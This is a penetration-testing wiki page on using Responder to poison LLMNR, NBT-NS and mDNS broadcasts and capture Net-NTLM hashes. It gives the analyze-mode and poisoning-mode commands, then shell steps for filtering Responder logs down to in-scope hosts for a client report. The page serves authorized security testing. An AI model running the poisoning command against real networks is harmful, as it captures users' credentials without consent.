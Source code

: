 ```yaml
---
description: Guide on using Responder.py to attack a network and obtain Net-NTLM hashes.
---
```


# Poisoning with Responder

### Description

Responder is the go-to tool for poisoning LLMNR, NBT-NS, and mDNS requests. NBT-NS, LLMNR and mDNS can broadcast queries to the entire network, but no measures are taken to verify the responses. As an attacker, we can exploit this by listening to the queries, spoofing the response, and then obtaining to the account being used to authenticate.&#x20;

{% embed url="https://github.com/lgandx/Responder" %}

### Usage

I always recommend running Responder in Analyze mode to begin your assessment. This will help identify DNS replacement protocols such as LLMNR and NBT-NS. Additionally, we can still capture hashes in Analyze mode, an example of this would be when a client has a 'network spider' for patch management.&#x20;

Run Responder in Analyze mode first to observe traffic on the network:

```bash
responder -I eth0 -A
```

After identifying the protocols, we can rerun Responder with the parameters to poison:

```bash
responder -I eth0 -dwP
```

### Output In-scope Hosts from Responder

Recently on a penetration test I had a request from a client to be provided with only "In-Scope" hosts that were in the Responder-logs. This is because they wanted an actionable list of hosts to remediate for compliance rather than "your entire domain is rekt".&#x20;

If this is ever an ask, I found out a pretty easy way to grep out hosts from IPs within scope and provide this ask to a client:

Place the in-scope hosts into a file. For this example, it will be titled `InScopeHosts.txt`

```bash
> cat in-scope.out

127.0.0.1
127.0.0.2
127.0.0.3
```

If the client has provided a list in CIDR notation then break these into smaller lists via your choice of tool. Personally, I like using nmap:

```bash
nmap -sL -n 127.0.0.0/24 | awk '/Nmap scan report/{print $NF}’
```

Grep out the `Poisoners-Session log` to only IP Addresses:

```bash
cat Poisoners-Session.log | grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}’ > responder-ips.txt
```

Sort both files and place them into the appropriate directory.&#x20;

```bash
sort -u $file
```

Compare the two files using `comm`:

```bash
comm -12 sorted-poisoners-session sorted-responder-ips
```

### References

{% embed url="https://www.cynet.com/attack-techniques-hands-on/llmnr-nbt-ns-poisoning-and-credential-access-using-responder" %}

{% embed url="https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022" %}
